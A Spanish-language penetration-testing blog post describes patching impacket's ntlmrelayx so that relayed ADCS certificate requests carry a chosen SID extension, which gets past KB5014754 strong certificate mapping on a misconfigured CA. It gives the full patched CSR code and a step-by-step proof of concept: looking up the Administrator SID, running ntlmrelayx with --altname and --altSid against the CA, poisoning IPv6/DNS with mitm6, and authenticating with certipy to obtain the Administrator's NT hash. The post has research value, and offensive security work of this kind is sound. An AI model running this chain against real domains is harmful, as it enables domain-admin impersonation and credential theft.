

## El escenario

Pongamos el caso concreto que originó todo esto. En un ejercicio nos encontramos una plantilla de certificado vulnerable a ESC1: permitía que el solicitante especificara un Subject Alternative Name arbitrario (`ENROLLEE_SUPPLIES_SUBJECT`) y servía para autenticación de cliente. El guion de ESC1 es de sobra conocido: pides un certificado poniendo en el SAN el UPN del Administrador del dominio y, con ese certificado, te autenticas como él para sacar su TGT y su hash NT.

Solo había un problema. La CA restringía quién podía solicitar sobre esa plantilla: los permisos de enrollment no estaban abiertos a `Domain Users`, sino limitados a un grupo concreto, y no teníamos la contraseña ni el hash de ninguna cuenta de ese grupo. La plantilla era explotable, pero no teníamos con qué pedir el certificado.


Aquí entra el relay. Si no puedes pedir el certificado tú, que lo pida por ti alguien que sí puede. Con mitm6 envenenamos la resolución IPv6/DNS del segmento para colocarnos en medio y capturar la autenticación NTLM de una cuenta con permisos de enrollment; esa autenticación se retransmite contra la CA y se solicita, en su nombre, un certificado con el SAN del Administrador. Abusar de ADCS para escalar en Active Directory es parte del repertorio estándar desde Certified Pre-Owned, la investigación de Will Schroeder y Lee Christensen que catalogó estas vías de abuso, las hoy conocidas como ESC.

Lo que sí ha cambiado es el terreno. Microsoft lleva tiempo endureciendo la vinculación entre certificados y cuentas de AD, y técnicas que funcionaban perfectamente hace un año hoy devuelven errores que no son obvios de interpretar. El que nos ocupó en este caso fue este:


El certificado llegó. La CA lo emitió. El PFX está en disco. Pero la autenticación falla.

## KB5014754 y el endurecimiento del mapeado de certificados

Para entender el error hay que entender qué cambió. En mayo de 2022, Microsoft publicó KB5014754, una actualización que modifica cómo los controladores de dominio mapean un certificado a una cuenta de usuario durante la autenticación Kerberos por PKINIT.

El mapeado clásico era débil por diseño: el DC tomaba el UPN del campo `subjectAltName` del certificado y buscaba en AD la cuenta cuyo `userPrincipalName` coincidiera. Ese proceso no verifica que la cuenta que se autentica sea realmente la que figura en el certificado; solo busca por nombre. El vector de ataque es directo: si consigues que la CA emita un certificado con `SAN: UPN=Administrador@corp.local`, puedes autenticarte como Administrador aunque la CA te lo entregara porque eras otro usuario con permisos de enrollment.

KB5014754 introduce un mecanismo de mapeado fuerte. Cuando está activo, el DC exige que el certificado contenga el SID de la cuenta que lo va a usar, incrustado en una extensión propietaria de Microsoft. Si el SID no está, o si no coincide con el SID real de la cuenta en AD, la autenticación se rechaza. El comportamiento exacto depende del valor del atributo `StrongCertificateBindingEnforcement` en el DC:

- `0`: sin enforcement, mapeado débil, comportamiento pre-KB5014754.
- `1`: modo compatibilidad, acepta sin SID pero emite un evento de auditoría.
- `2`: enforcement completo, rechaza si el SID no está o no coincide.

Desde febrero de 2025, el valor por defecto en los DCs actualizados es `2`. En la práctica, cualquier entorno con sus DCs al día aplica enforcement completo.

certipy v5, publicado por Oliver Lyak en 2024, añadió su propia validación del SID antes de enviar la petición al KDC. El error "Object SID mismatch" que vemos arriba es la comprobación local de certipy, que detecta que el certificado no contiene la extensión con el SID y aborta antes de hacer la llamada de red. El comportamiento es correcto: si el cert llega sin SID al DC, el DC lo rechazaría igualmente. certipy simplemente falla más rápido y con un mensaje más claro.

## La extensión que falta

La extensión que resuelve el problema tiene el OID `1.3.6.1.4.1.311.25.2`, llamada `szOID_NTDS_CA_SECURITY_EXT` en la nomenclatura de Microsoft. Contiene el SID del sujeto del certificado codificado como una estructura ASN.1 anidada.

La jerarquía ASN.1 de la extensión es esta:

```
Extension {
    extnID: OID(1.3.6.1.4.1.311.25.2)
    extnValue: OCTET STRING {
        GeneralNames ::= SEQUENCE {
            GeneralName ::= [0] CONSTRUCTED {   -- otherName
                type-id: OID(1.3.6.1.4.1.311.25.2.1)   -- NTDS_OBJECTSID
                value:   [0] EXPLICIT {
                    OCTET STRING(SID en UTF-8)
                }
            }
        }
    }
}
```

El OID `1.3.6.1.4.1.311.25.2.1` es `szOID_NTDS_OBJECTSID`. La parte inesperada es el valor: no es el SID en formato binario, sino la representación en cadena de texto (`S-1-5-21-...`) codificada como UTF-8 dentro de un `OCTET STRING`. Esto puede comprobarse volcando un certificado emitido por una CA de Windows, y es la misma codificación que usan herramientas como Certify o Certipy.

En un enrollment normal es la propia CA quien genera esta extensión a partir del solicitante autenticado, no el cliente. El ataque depende de un matiz de configuración: en el escenario analizado la CA copia la extensión `szOID_NTDS_CA_SECURITY_EXT` desde el CSR al certificado emitido sin verificar que el SID corresponda a la cuenta autenticada. Esa falta de validación es precisamente la que hace viable el ataque. Conviene dejarlo claro: no es que KB5014754 se pueda eludir de forma general, sino que esta CA confía en un valor que debería generar ella misma. Cuando el DC recibe ese certificado durante PKINIT, extrae el SID de la extensión y verifica que coincida con el SID de la cuenta que intenta autenticarse.

## Por qué ntlmrelayx no la incluye

ntlmrelayx tiene dos rutas de ataque ADCS:

- HTTP (ESC8): a través de `httpattacks/adcsattack.py`, que retransmite la autenticación NTLM contra el endpoint web de la CA (`/certsrv/certfnsh.asp`).
- RPC (ESC11): a través de `rpcattack.py`, que usa el protocolo MS-ICPR sobre DCE/RPC directamente contra la interfaz `IcertPassage`.

En ambos casos, la generación del CSR recae en `ADCSAttack.generate_csr()`:

```python
@staticmethod
def generate_csr(key, CN, altName, csr_type=crypto.FILETYPE_PEM):
    req = crypto.X509Req()
    if CN:
        req.get_subject().CN = CN
    if altName:
        req.add_extensions([crypto.X509Extension(
            b"subjectAltName", False,
            b"otherName:1.3.6.1.4.1.311.20.2.3;UTF8:%b" % altName.encode()
        )])
    req.set_pubkey(key)
    req.sign(key, "sha256")
    return crypto.dump_certificate_request(csr_type, req)
```

Usa pyOpenSSL para construir el CSR. El problema no es que OpenSSL sea incapaz de codificar el OID (codifica OIDs arbitrarios sin problema), sino que la API de alto nivel de pyOpenSSL para extensiones de CSR es muy limitada: no permite construir una extensión con la estructura ASN.1 anidada que exige `szOID_NTDS_CA_SECURITY_EXT`, un OID propietario de Microsoft fuera del estándar X.509.

El resultado: ntlmrelayx obtiene el certificado, la CA lo emite con el UPN correcto en el SAN, pero sin la extensión `1.3.6.1.4.1.311.25.2`. El DC lo rechaza porque no hay SID. certipy lo rechaza antes incluso de llegar al DC.

## La solución: codificación DER manual + UnrecognizedExtension

La librería `cryptography` (distinta de pyOpenSSL, aunque conviven en el mismo entorno) ofrece `x509.UnrecognizedExtension`, que permite incluir cualquier extensión arbitraria en un CSR o certificado pasando los bytes DER directamente. No depende de la API de alto nivel: nosotros construimos la estructura ASN.1 a mano y la librería la incrusta tal cual.

Para usarla hay que construir el `CertificateSigningRequest` con `cryptography` en lugar de con pyOpenSSL, y codificar el valor de la extensión a mano.

La codificación DER de TLV (Tag-Length-Value) es mecánica. Una función auxiliar mínima:

```python
def _tlv(tag, value):
    n = len(value)
    if n < 0x80:
        return bytes([tag, n]) + value
    elif n < 0x100:
        return bytes([tag, 0x81, n]) + value
    else:
        return bytes([tag, 0x82, (n >> 8) & 0xff, n & 0xff]) + value
```

Y para codificar OIDs, donde el primer componente se comprime como `40 * a + b` y el resto se codifica en base 128 con el bit alto activado en todos los octetos excepto el último:

```python
def _oid_encode(oid_str):
    parts = [int(x) for x in oid_str.split('.')]
    first = 40 * parts[0] + parts[1]

    def arc(n):
        if n < 128:
            return bytes([n])
        r = []
        while n:
            r.insert(0, n & 0x7f)
            n >>= 7
        for i in range(len(r) - 1):
            r[i] |= 0x80
        return bytes(r)

    c = arc(first)
    for p in parts[2:]:
        c += arc(p)
    return _tlv(0x06, c)
```

Con esas dos primitivas, la extensión SID queda:

```python
def _encode_sid_ext(sid):
    """
    Codifica el valor de szOID_NTDS_CA_SECURITY_EXT (1.3.6.1.4.1.311.25.2).
    Estructura: GeneralNames → OtherName[NTDS_OBJECTSID] → [0] EXPLICIT { OCTET STRING(sid) }
    """
    oct_s = _tlv(0x04, sid.encode('utf-8'))           # OCTET STRING
    val   = _tlv(0xa0, oct_s)                         # [0] EXPLICIT
    oid   = _oid_encode("1.3.6.1.4.1.311.25.2.1")    # NTDS_OBJECTSID
    on    = _tlv(0xa0, oid + val)                     # [0] CONSTRUCTED (OtherName)
    return _tlv(0x30, on)                             # GeneralNames SEQUENCE
```

Y el UPN en el SAN, que también hay que recodificar manualmente cuando se usa el builder de `cryptography`:

```python
def _encode_upn_san(upn):
    utf8 = _tlv(0x0c, upn.encode('utf-8'))            # UTF8String
    val  = _tlv(0xa0, utf8)                           # [0] EXPLICIT
    oid  = _oid_encode("1.3.6.1.4.1.311.20.2.3")     # msUPN
    on   = _tlv(0xa0, oid + val)                      # [0] CONSTRUCTED (OtherName)
    return _tlv(0x30, on)                             # GeneralNames SEQUENCE
```

La versión parcheada de `generate_csr` mantiene la ruta original sin SID intacta y añade una ruta alternativa cuando se proporciona el parámetro `altSid`:

```python
@staticmethod
def generate_csr(key, CN, altName, csr_type=crypto.FILETYPE_PEM, altSid=None):
    LOG.info("Generating CSR...")

    if altSid is None:
        # Ruta original — pyOpenSSL, sin extensión SID
        req = crypto.X509Req()
        if CN:
            req.get_subject().CN = CN
        if altName:
            req.add_extensions([crypto.X509Extension(
                b"subjectAltName", False,
                b"otherName:1.3.6.1.4.1.311.20.2.3;UTF8:%b" % altName.encode()
            )])
        req.set_pubkey(key)
        req.sign(key, "sha256")
        return crypto.dump_certificate_request(csr_type, req)

    # Ruta con SID — cryptography + UnrecognizedExtension
    private_key = key.to_cryptography_key()

    builder = x509.CertificateSigningRequestBuilder()
    builder = builder.subject_name(x509.Name([
        x509.NameAttribute(NameOID.COMMON_NAME, CN or "")
    ]))

    if altName:
        builder = builder.add_extension(
            x509.UnrecognizedExtension(
                oid=ObjectIdentifier("2.5.29.17"),
                value=_encode_upn_san(altName)
            ),
            critical=False
        )

    builder = builder.add_extension(
        x509.UnrecognizedExtension(
            oid=ObjectIdentifier("1.3.6.1.4.1.311.25.2"),
            value=_encode_sid_ext(altSid)
        ),
        critical=False
    )

    csr = builder.sign(private_key, hashes.SHA256(), default_backend())

    if csr_type == crypto.FILETYPE_PEM:
        return csr.public_bytes(Encoding.PEM)
    else:
        return csr.public_bytes(Encoding.DER)
```

Dos puntos a notar. Primero, `key.to_cryptography_key()` convierte la clave pyOpenSSL a un objeto `cryptography`, que es lo que espera el builder. El tipo de clave es compatible; solo cambia el wrapper. Segundo, `x509.UnrecognizedExtension` en `cryptography >= 36.0` se puede usar en CSRs además de en certificados. La versión en el entorno de impacket (pipx) es 46.x, así que no hay problema de compatibilidad.

## La mecánica de inyección del parche (durante el desarrollo)

Antes de integrar el cambio en el fork, había que validar el parche contra una instalación real de impacket sin tocar sus ficheros. La forma más rápida de probarlo fue inyectar la clase parcheada en tiempo de ejecución. Lo dejo documentado porque es una técnica útil para iterar sobre cualquier ataque de ntlmrelayx sin reinstalar nada.

El punto más delicado no es el código en sí sino dónde colgarlo. `attacks/__init__.py` de ntlmrelayx importa dinámicamente todos los módulos del directorio en el arranque y registra las clases de ataque en el diccionario `PROTOCOL_ATTACKS`. Esto hace que un simple monkey-patch tardío de `sys.modules` no sea suficiente: el diccionario ya tiene la clase original registrada antes de que podamos sustituirla.

La solución limpia: dejar que el arranque normal de ntlmrelayx ocurra, esperar a que `PROTOCOL_ATTACKS` esté poblado, y entonces reemplazar la entrada `"RPC"` con la clase parcheada:

```python
from impacket.examples.ntlmrelayx.attacks import PROTOCOL_ATTACKS

# Carga la clase RPCAttack parcheada desde fichero local
PROTOCOL_ATTACKS["RPC"] = _load_patched_rpcattack()
```

Donde `_load_patched_rpcattack()` usa `importlib.util.spec_from_file_location` para cargar el módulo parcheado sin tocar el sistema de paquetes de impacket. Funciona porque `PROTOCOL_ATTACKS` almacena clases, no instancias: `RPCAttack` no se instancia hasta que llega una conexión en tiempo de ejecución, mucho después del import, así que basta con sustituir la entrada del diccionario antes de que llegue el primer relay.

Una vez validado el parche por esta vía, el cambio se integró directamente en el fork de impacket. Por eso la PoC que viene a continuación se ejecuta con `ntlmrelayx.py` normal y el flag `--altSid`, sin wrapper ni inyección: el código ya vive dentro de la herramienta.

## PoC

La cadena completa, de un vistazo, antes de bajar a los comandos:



### 1. Obtener el SID del usuario objetivo

El primer dato que necesitamos es el SID de la cuenta que vamos a suplantar (aquí, el Administrador), porque es justo lo que hay que incrustar en el certificado. Desde cualquier cuenta de dominio:

```bash
# Con impacket
impacket-lookupsid 'DOMINIO/usuario:pass'@DC-IP | grep -i "domain admin\|administrator\| 500$"

# Con rpcclient
rpcclient -U 'usuario%pass' DC-IP -c "lookupnames Administrador"
```

### 2. Levantar el relay

Con el SID en mano, arrancamos el ntlmrelayx parcheado apuntando a la CA y le pasamos el SAN del Administrador junto con su SID (`--altSid`):

```bash
sudo ntlmrelayx.py -6 \
  -t rpc://CA.corp.local \
  -rpc-mode ICPR \
  -icpr-ca-name 'CORP-CA' \
  --adcs \
  --template VulnTemplate \
  --altname 'Administrator@corp.local' \
  --altSid 'S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500' \
  --no-multirelay \
  -smb2support
```

### 3. Forzar la autenticación con mitm6

Solo falta que una cuenta con permisos de enrollment autentique contra el relay. Con mitm6 envenenamos la resolución IPv6/DNS del segmento para provocarlo:

```bash
sudo mitm6 -i eth0 -d corp.local
```

Cuando pica, el relay hace su parte: genera el CSR con la extensión SID incrustada, la CA emite el certificado con ella y obtienes el PFX en disco. Esa es la pieza que faltaba, un certificado con el SID correcto.


A partir de ahí, la autenticación es el flujo de siempre. Con ese PFX, `certipy auth` hace el PKINIT contra el DC y, como ahora el SID cuadra, valida y devuelve el hash NT del usuario suplantado:


## Código y PR

El parche completo está disponible en mi fork de impacket, rama [feature/adcs-sid-extension](https://github.com/JosuPalacios99/impacket/tree/feature/adcs-sid-extension), y se ha enviado como pull request al repositorio upstream en [fortra/impacket#2222](https://github.com/fortra/impacket/pull/2222).

Los ficheros modificados respecto al original son cuatro:

- `impacket/examples/ntlmrelayx/attacks/httpattacks/adcsattack.py`: helpers DER + `generate_csr` con ruta altSid
- `impacket/examples/ntlmrelayx/attacks/rpcattack.py`: pasa `altSid` a `generate_csr`
- `impacket/examples/ntlmrelayx/utils/config.py`: campo `altSid` en `NTLMRelayxConfig`
- `impacket/examples/ntlmrelayx.py`: argumento `--altSid`

## Referencias

- [Certified Pre-Owned — Schroeder & Christensen, SpecterOps](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [KB5014754 — Certificate-based authentication changes on Windows domain controllers](https://support.microsoft.com/kb/5014754)
- [certipy v5 — ly4k](https://github.com/ly4k/Certipy)
- [impacket — fortra](https://github.com/fortra/impacket)
- [ESC11 — ICPR relay — Compass Security](https://www.compass-security.com/fileadmin/Research/2022_ESC11_ADCS_Relay_via_ICPR.pdf)
